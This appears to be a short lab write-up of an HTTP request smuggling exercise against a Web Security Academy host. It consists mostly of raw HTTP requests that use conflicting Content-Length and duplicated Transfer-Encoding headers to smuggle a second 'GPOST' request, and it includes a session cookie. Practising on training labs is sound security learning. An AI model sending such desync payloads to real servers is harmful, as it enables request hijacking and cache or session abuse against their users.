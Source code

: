 Removed the URL from the smuggled request. 
These attacks are virtually automated

---

A series of these requests in this order successfully smuggled in a 2nd request labled GPOST

##### REQUESTS:

---

POST / HTTP/1.1
Host: ac631f891e4c27dfc10543dc0035006d.web-security-academy.net
Cookie: session=v1XJsTUeCJ99lQv3ZLAObLuqPkDG5hzv
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked
Transfer-encoding: identity

3
x=y
0

---

>`POST / HTTP/1.1
>`Host: ac631f891e4c27dfc10543dc0035006d.web-security-academy.net
  `Cookie: session=v1XJsTUeCJ99lQv3ZLAObLuqPkDG5hzv
>`Content-Type: application/x-www-form-urlencoded
>`Content-length: 12
>`Transfer-Encoding: chunked
>`Transfer-encoding: identity

>`3
>`x=y
>`5e

>`GPOST / HTTP/1.1
>`Content-Type: application/x-www-form-urlencoded
>`Content-Length: 15

>`x=1
>`0

---

POST / HTTP/1.1
Host: ac631f891e4c27dfc10543dc0035006d.web-security-academy.net
Cookie: session=v1XJsTUeCJ99lQv3ZLAObLuqPkDG5hzv
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked
Transfer-encoding: identity

3
x=y
0

---